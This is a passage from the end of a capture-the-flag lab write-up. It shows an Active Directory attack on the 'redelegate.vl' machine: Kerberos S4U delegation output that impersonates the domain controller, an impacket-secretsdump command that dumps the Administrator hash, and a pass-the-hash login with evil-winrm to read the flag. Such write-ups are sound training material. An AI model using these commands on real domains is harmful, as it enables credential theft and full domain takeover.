[*] Getting TGT for user
[*] Impersonating dc
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in dc@cifs_dc.redelegate.vl@REDELEGATE.VL.ccache

```

We now need to set the `KRB5CCNAME` environment variable again but this time to the `dc@cifs_dc.redelegate.vl@REDELEGATE.VL.ccache` file:

```
export KRB5CCNAME=dc@cifs_dc.redelegate.vl@REDELEGATE.VL.ccache
```

At this point we are able to run `impacket-secretsdump` and gain access to the administrators hash:

```
impacket-secretsdump -k dc.redelegate.vl -just-dc-user Administrator
```



We can then use this hash to login to the target machine using evil-winrm:



The root.txt flag can be found in the administrators desktop directory thus solving the challenge:

